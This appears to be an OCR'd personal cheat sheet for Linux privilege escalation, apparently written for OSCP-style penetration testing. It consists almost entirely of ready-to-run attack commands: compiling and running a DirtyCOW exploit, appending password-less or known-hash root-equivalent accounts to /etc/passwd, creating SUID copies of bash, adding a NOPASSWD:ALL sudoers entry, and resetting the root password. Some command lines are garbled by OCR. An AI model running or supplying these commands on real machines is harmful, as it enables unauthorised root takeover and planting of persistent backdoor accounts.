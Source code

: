 ## DIRTYCOW

```
exploit in ~/stuffs/oscp/c0w.c 
gccc0w-w-pthread-ocow  
./cow  
/usr/bin/passwd
```

## SHADOW / PASSWD FILE WRITABLE?

```
echo "root2::0:0:root:/root:/bin/bash" >> /etc/passwd 
```
(setting no password for user root2 to we can login as root without passwd since uid and gid is 0.  
or
```
openssl passwd banana or openssl passwd -1 -salt pwn pass123  
```
replace x with hash or create a correct format  
```
echo "root2:$1$ORXgPu49$zUxuMoaybWABa2bhFnIpz0:0:0:root:/root:/bin/bash" >> /etc/passwd ( 0 specifies user is superuser) 
suroot2  
enterpass
```

## SETTING SUID FOR /bin/bash (IF CHMOD CAN BE RUN AS ROOT)

```
/usr/bin/chmod +s /bin/bash
    
try to reboot the machine
    
/bin/bash -p
```    
## ESCALATION METHODS:
    
```
cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash; /tmp/rootbash -p
    
nano /etc/sudoers -> user ALL=(ALL) NOPASSWD:ALL
    
nano /etc/passwd -> change GID to root
    
echo "exploit:YZE7YPhZJyUks:0:0:root:/root:/bin/bash" >> /etc/passwd | su - exploit
    
echo root:gl0b0 | /usr/sbin/ chpasswd
```
    
## SNMP:
    
- Check if snmpd is running as root and /etc/snmp/snmpd.conf is writable
- https://rioru.github.io/pentest/web/2017/03/28/from-unauthenticated-to-root-supervision.html